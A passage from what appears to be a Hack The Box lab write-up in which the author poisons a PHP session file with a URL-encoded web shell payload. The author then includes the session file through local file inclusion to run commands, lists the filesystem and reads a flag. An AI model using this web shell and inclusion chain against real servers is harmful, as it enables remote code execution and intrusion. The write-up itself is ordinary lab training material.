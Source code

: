 We can see it changed, which means we are able to perform this action, let's change it to a webshell:

```
language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

And check again using the `cmd` parameter:

```
/var/lib/php/sessions/sess_5lpvtk301qthsd578ihq05f63r&cmd=id
```

!\[]\(Pasted image 20250218165503.png)

We got `RCE`, let's answer the questions:

```
pwd

/var/www/html
```

Answer is:

```
/var/www/html
```

Now, let's search for the flag:

```
ls+/

bin
boot
c85ee5082f4c723ace6c0796e3a3db09.txt
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Got it, let's read it:

!\[]\(Pasted image 20250218170217.png)

Got our flag:

```
HTB{1095_5#0u1d_n3v3r_63_3xp053d}
```
